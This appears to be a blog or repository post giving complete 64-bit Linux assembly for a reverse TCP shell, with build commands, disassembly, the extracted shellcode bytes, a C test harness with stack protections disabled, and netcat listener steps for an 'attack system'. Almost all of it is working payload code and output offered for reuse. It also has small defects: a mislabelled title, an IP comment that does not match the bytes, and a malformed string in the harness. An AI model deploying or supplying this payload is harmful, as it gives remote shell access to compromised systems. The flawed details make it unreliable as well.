 ## Reverse TCP Bind Shell 64 bit

In learning 64 bit assembly language under Linux, I thought I would convert some of the 32 bit code I have already in my repo. Therefore there won’t be a full explanation, just the basics.

The assembly language code.
```nasm
global _start
section .text
 
_start:
    xor rax,rax
    xor rdi,rdi
    xor rsi,rsi
    xor rdx,rdx
    xor r8,r8
     
    ; Socket
    ; Function prototype:
    ;   int socket(int domain, int type, int protocol)
    ; Purpose:
    ;   creates an endpoint for communications, returns a
    ;   descriptor that will be used throughout the code to
    ;   bind/listen/accept communications
    push 0x2
    pop rdi
    push 0x1
    pop rsi
    push 0x6
    pop rdx
    push 0x29
    pop rax
    syscall 
    mov r8,rax
     
    ; Connect
    ; Function protoype:
    ;   int connect(int sockfd, const struct sockaddr *addr,
    ;       socklen_t addrlen)
    ; Purpose:
    ;   initiate a connection on socket referred by the file
    ;   descriptor to the address specified in addr.
    xor rsi,rsi
    xor r10,r10
    push r10
    mov byte [rsp],0x2
    mov word [rsp+0x2],0x697a
    mov dword [rsp+0x4],0xa1080c0
    mov rsi, rsp
    push byte 0x10
    pop rdx
    push r8
    pop rdi
    push 0x2a
    pop rax
    syscall
     
    ; Dup2
    ; Function prototype:
    ;   int dup2(int oldfd, int newfd)
    ; Purpose:
    ;   duplicate a file descriptor, copies the old file
    ;   descriptor to a new one allowing them to be used
    ;   interchangably, this allows all shell ops to/from the
    ;   compromised system
    xor rsi,rsi
    push 0x3
    pop rsi
doop:
    dec rsi
    push 0x21
    pop rax
    syscall 
    jne doop
     
    ; Execve
    ; Function descriptor:
    ;   int execve(const char *fn, char *const argv[],
    ;       char *const envp[])
    ; Purpose:
    ;   to execute a program on a remote and/or compromised
    ;   system. There is no return from using execve therefore
    ;   an exit syscall is not required
    xor rdi,rdi
    push rdi
    push rdi
    pop rsi
    pop rdx
    mov rdi,0x68732f6e69622f2f
    shr rdi,0x8
    push rdi
    push rsp
    pop rdi
    push 0x3b
    pop rax
    syscall
```
Build the code:
```
$ nasm -felf64 -o reversetcpbindshell.o reversetcpbindshell.asm
$ ld -o reversetcpbindshell reversetcpbindshell.o
```
Check for nulls:
```
$ objdump -D reversetcpbindshell -M intel
	
reversetcpbindshell:     file format elf64-x86-64
Disassembly of section .text:
 
0000000000400080 <_start>:
  400080:   48 31 c0                xor    rax,rax
  400083:   48 31 ff                xor    rdi,rdi
  400086:   48 31 f6                xor    rsi,rsi
  400089:   48 31 d2                xor    rdx,rdx
  40008c:   4d 31 c0                xor    r8,r8
  40008f:   6a 02                   push   0x2
  400091:   5f                      pop    rdi
  400092:   6a 01                   push   0x1
  400094:   5e                      pop    rsi
  400095:   6a 06                   push   0x6
  400097:   5a                      pop    rdx
  400098:   6a 29                   push   0x29
  40009a:   58                      pop    rax
  40009b:   0f 05                   syscall 
  40009d:   49 89 c0                mov    r8,rax
  4000a0:   48 31 f6                xor    rsi,rsi
  4000a3:   4d 31 d2                xor    r10,r10
  4000a6:   41 52                   push   r10
  4000a8:   c6 04 24 02             mov    BYTE PTR [rsp],0x2
  4000ac:   66 c7 44 24 02 7a 69    mov    WORD PTR [rsp+0x2],0x697a
  4000b3:   c7 44 24 04 c0 80 10    mov    DWORD PTR [rsp+0x4],0xa1080c0
  4000ba:   0a 
  4000bb:   48 89 e6                mov    rsi,rsp
  4000be:   6a 10                   push   0x10
  4000c0:   5a                      pop    rdx
  4000c1:   41 50                   push   r8
  4000c3:   5f                      pop    rdi
  4000c4:   6a 2a                   push   0x2a
  4000c6:   58                      pop    rax
  4000c7:   0f 05                   syscall 
  4000c9:   48 31 f6                xor    rsi,rsi
  4000cc:   6a 03                   push   0x3
  4000ce:   5e                      pop    rsi
00000000004000cf <doop>:
  4000cf:   48 ff ce                dec    rsi
  4000d2:   6a 21                   push   0x21
  4000d4:   58                      pop    rax
  4000d5:   0f 05                   syscall 
  4000d7:   75 f6                   jne    4000cf <doop>
  4000d9:   48 31 ff                xor    rdi,rdi
  4000dc:   57                      push   rdi
  4000dd:   57                      push   rdi
  4000de:   5e                      pop    rsi
  4000df:   5a                      pop    rdx
  4000e0:   48 bf 2f 2f 62 69 6e    movabs rdi,0x68732f6e69622f2f
  4000e7:   2f 73 68 
  4000ea:   48 c1 ef 08             shr    rdi,0x8
  4000ee:   57                      push   rdi
  4000ef:   54                      push   rsp
  4000f0:   5f                      pop    rdi
  4000f1:   6a 3b                   push   0x3b
  4000f3:   58                      pop    rax
  4000f4:   0f 05                   syscall 
```
Test above executable using two systems (virtual or otherwise):
Open a terminal on the attack system,
```
$ nc -l -v 31337
```
the attack system will await a connection from the compromised system.

Open a terminal on the system to be compromised,
```
$ ./reversetcpbindshell
```
on the attack system a connection message should now appear, shell access is now available on the compromised system. Try typing in some commands to prove this is the case.

Get shellcode from executable:
Use the following from the commandlinefu website replacing PROGRAM with the name of the required executable like so,
```bash
$ objdump -d ./reversetcpbindshell | grep ‘[0-9a-f]:’ | grep -v ‘file’ | cut -f2 -d: | cut -f1-7 -d’ ‘ | tr -s ‘ ‘ | tr ‘t’ ‘ ‘ | sed ‘s/ $//g’ | sed ‘s/ /x/g’ | paste -d ” -s | sed ‘s/^/”/’ | sed ‘s/$/”/g’

“\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24\x02\x7a\x69\xc7\x44\x24\x04\xc0\x80\x10\x0a\x48\x89\xe6\x6a\x10\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05”
```
The shellcode can be copied and pasted into a test program, similar to the one below. The #define IPADDR and PORT is to allow for the simple configuration of IP Address and Port.
```c	
#include <stdio.h>
  
/*
 ipaddr 192.168.1.10 (c0a8010a)
 port 31337 (7a69)
*/
#define IPADDR "\xc0\x80\x10\x0a"
#define PORT "\x7a\x69"
  
unsigned char code[] = 
"\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a"
"\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0"
"\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24"
"\x02\"PORT"\xc7\x44\x24\x04"IPADDR"\x48\x89\xe6\x6a\x10"
"\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48"
"\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a"
"\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54"
"\x5f\x6a\x3b\x58\x0f\x05";
 
int
main(void)
{
    printf("Shellcode Length: %dn", (int)sizeof(code)-1);
    int (*ret)() = (int(*)())code;
    ret();
    return 0;
}
```
Build the code:
```
$ gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
```
The options for gcc are to disable stack protection and enable stack execution respectively. Without these options the code will cause a segfault.

Test above executable using two systems (virtual or otherwise):
Open a terminal on the attack system,
```
$ nc -l -v 31337
```
the attack system will await a connection from the compromised system.

Open a terminal on the system to be compromised,
```
$ ./reversetcpbindshell
```
on the attack system a connection message should now appear, shell access is now available on the compromised system. Try typing in some commands to prove this is the case.

The shellcode above currently weighs in at 118 bytes. With further research the codebase could be reduced, but that was not the goal of this exercise.


Shell-storm database entry -- http://shell-storm.org/shellcode/files/shellcode-857.php
